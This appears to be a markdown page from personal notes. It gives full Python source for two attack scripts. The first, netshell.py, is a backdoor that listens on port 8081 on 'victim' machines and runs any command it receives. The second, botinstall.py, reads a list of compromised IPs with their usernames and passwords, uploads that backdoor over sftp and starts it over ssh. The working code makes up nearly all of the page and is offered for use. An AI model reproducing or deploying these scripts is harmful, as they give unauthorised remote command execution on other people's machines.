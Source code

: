 ### netshell.py script
First create a server script utilizing the [[Python Sockets Library]] to run on victim clients that will keep an open listening port. (In this case 8081). This script will listen on a specified port for incoming traffic and then run the traffic as a command on the shell. When this script is deployed on a machine, you can connect via telnet
`telnet <victim ip> <port>

``` python
#!/usr/bin/python3

#a simple network shell to run command received from someone else
import socket, subprocess, select

# set up a listener socket for incoming commands
listener = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
listener.bind(('', 8081))
listener.listen(10)

#create a list for all client sockets
allsocks = [listener]

#store client info
client_info = {}

#loop to accept a connection and run a command that was received
while True:
	#now we have multiple sockets, let the os tell us which socket wants to talk
	ready, output, exceptions = select.select(allsocks, [], [])
	for sock in ready:
		if sock == listener:
			client, addr = listener.accept()
			print("New connection from", addr)
			allsocks.append(client)
			
			client_info[client] = {"addr": addr, "exit_requested": False}
		else:
			commbytes = sock.recv(1024)
			if not commbytes:
				print("Connection closed by", client_info[sock]["addr"])
				sock.close()
				allsocks.remove(sock)
				del client_info[sock]
			else:
				commlist = commbytes.decode().rstrip().split()
				print("Executing command", commlist)
				
				#change exit condition to true for the respective sock if "exit" is typed in client
				if commlist == ["exit"]:
					print("Exit command received from", client_info[sock]["addr"])
					client_info[sock]["exit_requested"] = True
				else:
				# use popen and communicate to run the command
					try:
						p1 = subprocess.Popen(commlist, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
						outbytes, errbytes = p1.communicate()
						result = "STDOUT:\n" + outbytes.decode() + "\nSTDERR:\n" + errbytes.decode()

					except OSError as e:
		          			result = "Error: " + str(e)

				sock.sendall(result.encode())
			
			
```


### botinstall.py script
The following script is used to transfer and deploy the netshell.py script on victim machines. The script takes a file path as an argument point towards a text file containing machines to compromise. The text file is organized as follows:
` ip, username, password \n`
This script uses the Python expect library
```python
#!/usr/bin/python3

import pexpect
import sys

def readlist(file_path):
	compromised_hosts = []
	with open(file_path, 'r') as file:
		for line in file:
			ip, username, password = line.strip().split()
			compromised_hosts.append((ip, username, password))
	print('Read compromised_hosts.txt')
	print('Installing backdoor on the following hosts: ' + str(compromised_hosts))
	return compromised_hosts
	

def installbots(ip, username, password):
	print('Executing payload on ' + ip)
	try:
		sftp_cmd = 'sftp ' + username + '@' + ip
		child = pexpect.spawn(sftp_cmd)
		child.expect('password')
		child.sendline(password)
		child.expect('sftp>')
		child.sendline('put netshell.py')
		child.expect('sftp>')
		child.sendline('exit')
		print("script uploaded")
		
		ssh_cmd = 'ssh ' + username + '@' + ip
		child = pexpect.spawn(ssh_cmd)
		child.expect('password:')
		child.sendline(password)
		child.expect('$')
		child.sendline('nohup python netshell.py &')
		child.expect('$')
		child.sendline('exit')
		print('shell started')
		
		
		with open('botted_hosts.txt', 'a') as file:
			file.write(ip + '\n')
	
	except Exception as e:
		print('error botting ' + ip + ' Error: ' + str(e))
	
 


hostfile = sys.argv[1]

hostlist = readlist(hostfile)

for ip, username, password in hostlist:
	installbots(ip, username, password)
print("botted_hosts.txt written")
```